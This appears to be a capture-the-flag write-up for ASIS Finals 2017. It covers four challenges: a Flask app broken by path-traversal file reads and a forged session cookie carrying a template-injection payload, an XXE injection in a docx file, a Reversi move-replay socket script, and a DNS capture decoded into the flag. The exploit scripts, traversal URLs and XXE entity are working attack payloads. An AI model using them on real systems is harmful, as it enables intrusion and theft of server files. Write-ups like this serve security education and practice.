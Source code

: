 
# ASIS-FINALS-2017
-<b>Task name : Golem is stupid <br>
-Category : Web <br>
 </b>
-Description :  Golem is an animated anthropomorphic being that is magically created entirely from inanimate matter, but Golem is stupid! <br>
<br>

-tl;dr : SSTI to get RCE in flask session token <br>

-Challenge : <br>
-first could find obvious LFI  https://golem.asisctf.com/article?name=../../../etc/passwd  and leak etc/passwd <br>
-Trying leak other files gave us important infos : https://golem.asisctf.com/article?name=../../../../proc/self/cmdline <br>

https://golem.asisctf.com/article?name=../../../../../../etc/uwsgi/apps-enabled/golem_proj.ini was showing main script path file <br>

leaking that we can see that all parameters are kind of sanitized except token, which was then printed , looks like server side template injection<br>
All I had to do is create local flask app, forge my token using the key which was in the python file with payload, and send it to the application<br><br>

Payload : <br>
```
#creatig payload
from flask import Flask, session

app = Flask(__name__)

@app.route('/')
def run():
    session['golem'] = '{{ \'\'.__class__.__mro__[2].__subclasses__()[40](\'/opt/serverPython/golem/flag.py\').read() }}'
    return 'ok'
    

if __name__ == '__main__':
    app.secret_key = '7h15_5h0uld_b3_r34lly_53cur3d'
    app.run(host='127.0.0.1', port=2222, debug=True)
---------------------------------------------------------------------------------------------------------------------

#exploiting 
import requests

cookies={'session':'.eJwlyU0LgjAYAOC_Eu-5w9SCNugUOJl6iGgub21-QG4Z6Aab-N8zuj7PAv2oWwNkgZ0EAm0y9cwrKyL8kjQNKsJdoXEnBXObyVKj34WmYv-PeRDRacz5hMoUjcxjp7Kr29w3hvt7ptGTYlvEjZOUz0VcT49KWZUN7_x29HWVDvll6DuBzrDuYTYfIIdk_QL3ADJC.DJSUXQ.0_cgqMpbS89-sLEX2HaJRslq73I'}


r=requests.post('https://golem.asisctf.com/golem',cookies=cookies)

print r.text
```

-<br>
-Response contained flag : <b>ASIS{I_L0v3_SerV3r_S1d3_T3mplate_1nj3ct1on!!}</b>

-<br><br>
-<b>------------------------------------------------------------------------------------------------------------------------------------------------------------------</b>
-<br><br><br>
<b>
-Task name :  GSA File Server  <br>
-Category : Web <br>
</b>
-Description :  GSA's file server, go find the hole, drill it and grab the flag :)
-Note that Scope is 128.199.40.185:* <br>
<br>

-tl;dr : Exploit XXE and Use a directory listing vuln to read flag<br>

-Challenge : <br>
-First find :http://128.199.40.185/showFiles was vuln to directory listing<br>
-Second find : http://128.199.40.185:8081/panelManager-0.1/ XXE injection in docx file <br>
-the solution was to download their doc file called (demo) open with archive and change inner xml (word/document.xml) with an xxe  php filter was working <br>
-```<!DOCTYPE roottag [<!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=../../../../fileSharing/s3cRetP4th/flagIsHeregRabiT.flag"> ]>```<br>
-<br> the directory of the flag was found using the first vuln <br>
-Flag : <b>ASIS{Vuln_web_appZ_plus_misc0nfig_eQ_dis4st3R!}</b>
-<br><br>
-<b>------------------------------------------------------------------------------------------------------------------------------------------------------------------</b>
-<br><br><br><b>
-Task name :   Chaoyang District   <br>
-Category : PPC <br></b>
-Description :  This is an AI programming challenge, so binary is not required to be provided. <br>
-tl;dr : play one game to generate sequence of winning moves, repeat same sequences 50 times ;) <br>
-Challenge : <br>
-Challenge was Reversi game vs an AI, the problem was that the same game was repeated, and the AI did same moves, so we need to win just one game, store the moves that we used and repeat for all games <br>

```
#might wanna use pwntools instead of sockets, it bugged sometime
import socket

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(('178.62.22.245',32145))
seq=['e3','c5','b5','g3','b3','a5','b7','a7','d7','e6','a4','a8','e1','b1','g8','c8','g5','h2','g1','h6','g7','h7','d8','c1','e8','a2','h3','h5']
i=0
j=0
while True:
	print s.recv(1024)
	print s.recv(1024)
	print 'Game nubmer : ' , j+1
	if i==len(seq):
		j+=1
		i=0
	s.send(seq[i]+'\n')
	if j==49:
		print s.recv(1024)
	i+=1
```

<br>
Flag : <b>ASIS{Th3_Bra1n_Wash1nG_HAHA_AI_IS_INTERESTING}</b>
<br><br>
-<b>------------------------------------------------------------------------------------------------------------------------------------------------------------------</b>
-<br><br><b>
-Task name :   Vivid Spying   <br>
-Category : Networking <br></b>
-Description :      We have captured the spy traffic by our agents, hurry up and find the flag. : <br>
-Challenge : <br> 
-The challenge provided a DNS capture, after analyzing it for a bit we can extract some prefix in a domain name asisctf.com<br>
10.111110100001001111101011001010011100100010001011111010000101100.010111010010110111011101111101011100110011101101001011010011110.000011101100101011111010110111101100101010010010110010101000001.asisctf.com <br>
Cleaning that prefix from dots and reading it right to right didn't give printable string <br>
after adding a zero it becomes : 010000010101001101001001010100110111101101011111010100110111000001111001011010010110111001100111010111110111011101101001011101000110100001011111010001000100111001010011010111110010000101111101 <br>
-bin to ascii => <b>ASIS{_Spying_with_DNS_!} </b>
